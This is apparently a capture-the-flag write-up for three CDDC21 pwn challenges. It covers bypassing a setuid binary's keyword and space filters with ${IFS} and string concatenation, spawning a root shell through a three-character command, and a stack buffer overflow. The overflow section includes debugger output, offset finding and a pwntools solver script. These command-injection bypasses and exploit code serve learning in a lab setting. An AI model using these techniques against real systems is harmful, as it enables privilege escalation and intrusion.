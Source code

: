 # File It Away \(Pwn\)

## Inject it Now

There is a `gdc_exec` binary on the server. It has SUID permissions and runs as root.

We can use the `tail` command to read the `gdc_exec.c` source code. Essentially, it runs `system(argv[1])` with a few restrictions:

1. `strstr()` checks for the substrings `sh`, `cat`, `flag` and `tmp` .
2. Argument to `gdc_exec` cannot have spaces.
3. Command will be run from the directory `/tmp`.
4. The `PATH` is set to an invalid directory.

The `${IFS}` value evaluates to a space character by default. Hence, `${IFS}` can be used to replace spaces in the argument.

You can use `export` to change the PATH back to `/bin`.

```text
/gdc_exec "export\${IFS}PATH='/bin'\${IFS}&&export"
export HOME='/root'
export HOSTNAME='a036d9204996'
export PATH='/bin'
export PWD='/'
export REMOTE_HOST='115.66.195.39'
```

Final payload, using string concatenation to bypass the `strstr()` check.

```text
/gdc_exec "export\${IFS}PATH='/bin'\${IFS}&&cmd=\"tail\${IFS}fl\"&&cmd2=\"ag\"&&cmd3=\"\$cmd\$cmd2\"&&\$cmd3"
CDDC21{You_Wi11_n3ver_st0p_u$}
```

## Length Matters

This is the same challenge, except `gdc_exec` now uses `strncpy()` to copy only the first 3 characters of `argv[1]` to the command to be executed. We could simply use `sh` to spawn a shell, then `cat` the flag from the elevated shell.

```text
/gdc_exec sh
cat flag
CDDC21{0nly_thr33_ch@rs??}
```

## Change Direction

This is a classic buffer overflow challenge, with a win function at `flag`.

```text
[0x08048400]> afl
0x08048400    1 33           entry0
0x080483f0    1 6            sym.imp.__libc_start_main
0x08048440    4 42           sym.deregister_tm_clones
0x08048470    4 55           sym.register_tm_clones
0x080484b0    3 30           sym.__do_global_dtors_aux
0x080484d0    4 45   -> 44   entry.init0
0x080485e0    1 2            sym.__libc_csu_fini
0x08048430    1 4            sym.__x86.get_pc_thunk.bx
0x080485e4    1 20           sym._fini
0x0804851b    1 20           sym.notaflag
0x080483c0    1 6            sym.imp.system
0x08048570    4 97           sym.__libc_csu_init
0x0804852f    1 64           main
0x080483a0    1 6            sym.imp.printf
0x080483b0    1 6            sym.imp.fflush
0x08048390    1 6            sym.imp.read
0x080484fd    1 30           sym.flag
0x080483e0    1 6            sym.imp.exit
0x08048358    3 35           sym._init
0x080483d0    1 6            loc.imp.__gmon_start__
[0x08048400]>
```

The win function is at 0x080484fd.

Using the `msf-pattern_create` cyclic payload, we can overflow the buffer and inspect the EIP value after the binary crashes.

```text
gef➤  info frame
Stack level 0, frame at 0xffffd1a4:
 eip = 0x63413563; saved eip = 0x37634136
 called by frame at 0xffffd1a8
 Arglist at 0xffffd19c, args: 
 Locals at 0xffffd19c, Previous frame's sp is 0xffffd1a4
 Saved registers:
  eip at 0xffffd1a0
```

Looks like the offset to overwrite the EIP is 76.

```bash
└─$ msf-pattern_offset -q 0x37634136
[*] Exact match at offset 80

└─$ msf-pattern_offset -q 0x63413563
[*] Exact match at offset 76
```

Using a solver script, we can then send the payload to the remote server and obtain the flag. 

```python
from pwn import *

ret = 0x080484fd
offset = 76
payload = b""
payload += b"A" * offset
payload += p64(ret)
print(payload)

with open('payload', 'wb') as f:
    f.write(payload)

conn = remote('13.213.195.207', 60130)

print(conn.recv())
conn.send(payload + b"\n")
print(conn.recv())

conn.close()
```


